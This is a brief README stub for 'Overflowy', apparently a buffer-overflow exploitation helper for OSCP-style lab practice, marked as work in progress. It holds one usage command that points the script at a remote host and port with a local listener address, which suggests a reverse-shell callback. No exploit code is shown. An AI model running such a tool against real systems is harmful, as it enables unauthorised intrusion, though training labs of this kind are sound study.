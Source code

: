 # Overflowy

> TODO: work in progress

Basic usage: `python3 overflowy.py --rhost 10.10.21.250 --rport 1337 --lhost 10.13.2.199 --lport 4444 --rcmd "OVERFLOW1 " --foldername oscp` and follow the instructions, as they appear, on the prompt.
